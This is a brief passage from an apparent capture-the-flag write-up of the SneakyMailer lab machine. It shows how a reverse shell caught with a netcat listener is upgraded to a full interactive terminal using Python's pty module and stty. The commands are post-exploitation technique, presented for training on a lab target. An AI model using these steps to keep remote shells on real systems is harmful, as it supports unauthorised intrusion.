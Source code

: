 We can then upgrade the shell using

```bash
$python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@sneakymailer:/$ ^Z
[1]+ Stopped nc -lvnp 6001
┌─[✗]─[rin@parrot]─[~/boxes/SneakyMailer]
└──╼ $stty raw -echo
┌─[rin@parrot]─[~/boxes/SneakyMailer]
nc -lvnp 6001
www-data@sneakymailer:/$
```

